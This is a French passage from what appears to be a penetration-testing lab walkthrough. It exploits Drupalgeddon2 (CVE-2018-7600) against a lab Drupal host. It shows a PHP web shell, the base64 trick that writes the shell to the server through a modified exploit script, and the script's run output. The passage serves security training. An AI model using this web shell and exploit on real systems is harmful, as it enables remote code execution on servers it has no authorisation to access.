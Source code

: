 ```

```

Nous pouvons vérifier rapidement avec `cURL` et voir que le fichier `hello.txt` a bien été téléchargé.

```
dsgsec@htb[/htb]$ curl -s http://drupal-dev.inlanefreight.local/hello.txt

;-)

```

Modifions maintenant le script pour obtenir l'exécution de code à distance en téléchargeant un fichier PHP malveillant.

Code : php

```
<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>

```

```
dsgsec@htb[/htb]$ echo '<?php system($_GET[fe8edbabc5c5c9b7b764504cd22b17af]);?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K

```

Ensuite, remplaçons la commande `echo` dans le script d'exploitation par une commande pour écrire notre script PHP malveillant.

```
  echo "PD9waHAgc3lzdGVtKCRfR0VUW2ZlOGVkYmFiYzVjNWM5YjdiNzY0NTA0Y2QyMmIxN2FmXSk7Pz4K" | base64-d | tee mrb3n.php

```

Ensuite, exécutez le script d'exploitation modifié pour télécharger notre fichier PHP malveillant.

```
dsgsec@htb[/htb]$ python3 drupalgeddon2.py

################################################# ##############
# Preuve de concept pour CVE-2018-7600
# par Vitalii Rudnykh
# Merci par AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################# ##############
Fourni uniquement à des fins éducatives ou d'information

Saisissez l'URL cible (exemple : https://domain.ltd/) : http://drupal-dev.inlanefreight.local/

Vérifier : http://drupal-dev.inlanefreight.local/mrb3n.php

```
